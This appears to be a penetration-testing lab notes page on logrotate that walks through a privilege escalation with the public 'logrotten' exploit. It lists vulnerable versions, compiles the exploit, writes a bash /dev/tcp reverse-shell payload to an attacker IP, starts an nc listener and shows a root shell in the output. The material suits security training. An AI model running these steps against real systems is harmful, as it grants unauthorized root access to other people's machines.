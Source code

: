 ```yaml
---
icon: linux
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# Logrotate

Linux system produces large amounts of log files. To prevent the hard disk from overflowing, a tool called **logrotate** takes care of archiving or disposing of old logs.

`Logrotate` has many features for managing log files. These include the specification of:

* the `size` of the log file,
* its `age`,
* and the `action` to be taken when one of these factors is reached.

The function of the rotation itself consists in renaming the log files. For example, new log files can be created for each new day, and the older ones will be renamed automatically. Another example of this would be to empty the oldest log file and thus reduce memory consumption.

This tool is usually started periodically via `cron` and controlled via the configuration file `/etc/logrotate.conf`. Within this file, it contains global settings that determine the function of `logrotate`.

## Privilege Escalation

To exploit `logrotate`, we need some requirements that we have to fulfil.

1. we need `write` permissions on the log files
2. logrotate must run as a privileged user or `root`
3. vulnerable versions:
   * 3.8.6
   * 3.11.0
   * 3.15.0
   * 3.18.0

There is a prefabricated exploit that we can use for this if the requirements are met. This exploit is named [logrotten](https://github.com/whotwagner/logrotten). We can download and compile it on a similar kernel of the target system and then transfer it to the target system. Alternatively, if we can compile the code on the target system, then we can do it directly on the target system.

```shell-session
logger@nix02:~$ git clone https://github.com/whotwagner/logrotten.git
logger@nix02:~$ cd logrotten
logger@nix02:~$ gcc logrotten.c -o logrotten
```

Next, we need a payload to be executed. Here many different options are available to us that we can use. In this example, we will run a simple bash-based reverse shell with the `IP` and `port` of our VM that we use to attack the target system.

{% code title="Command" %}
```bash
echo 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1' > payload
```
{% endcode %}

However, before running the exploit, we need to determine which option `logrotate` uses in `logrotate.conf`.

{% code title="Command" %}
```bash
grep "create\|compress" /etc/logrotate.conf | grep -v "#"
```
{% endcode %}

{% code title="Example Output" %}
```
create
```
{% endcode %}

In this example, it is the option: `create`. Therefore we have to use the exploit adapted to this function.

After that, we have to start a listener on our machine, which waits for the target system's connection.

```bash
nc -nlvp 9001
```

As a final step, we run the exploit with the prepared payload and wait for a reverse shell as a privileged user or root.

{% code title="Command" %}
```bash
./logrotten -p ./payload /tmp/tmp.log
```
{% endcode %}

{% code title="NetCat Listener Output" %}
```bash
...
Listening on 0.0.0.0 9001

Connection received on 10.129.24.11 49818
# id

uid=0(root) gid=0(root) groups=0(root)
```
{% endcode %}
